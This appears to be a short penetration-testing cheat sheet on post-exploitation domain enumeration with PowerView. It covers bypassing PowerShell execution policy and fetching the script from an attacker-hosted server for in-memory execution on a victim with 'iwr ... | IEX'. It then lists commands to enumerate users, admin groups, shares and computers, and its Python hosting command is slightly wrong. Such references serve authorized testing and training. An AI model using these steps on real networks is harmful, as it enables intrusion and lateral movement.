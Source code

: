 # Post Exploitation

## Powerview

* Powerview is a powerful powershell script from powershell empire that can be used for enumerating a domain after you have already gained a shell in the system.
* Start Powershell - `powershell -ep bypass` `-ep bypasses` the execution policy of powershell allowing you to easily run scripts
* Transfer PowerView to the target box (see file transfers page)
* Start PowerView

```
. .\Downloads\PowerView.ps1
```

### Load into Memory

* Host remotely&#x20;

```
python3 -c http.server 8000
#pull down on victim machine 
iwr http://<hosting-ip>:8000/PowerView.ps1 | IEX
```

### See system info

```
systeminfo
```

### Enumerate the domain users

```
Get-NetUser | select cn
```

### Enumerate the domain groups

```
Get-NetGroup -GroupName *admin*
```

### See shared folders

```
Invoke-ShareFinder
```

### See Full network information

```
Get-NetComputer -fulldata 
```
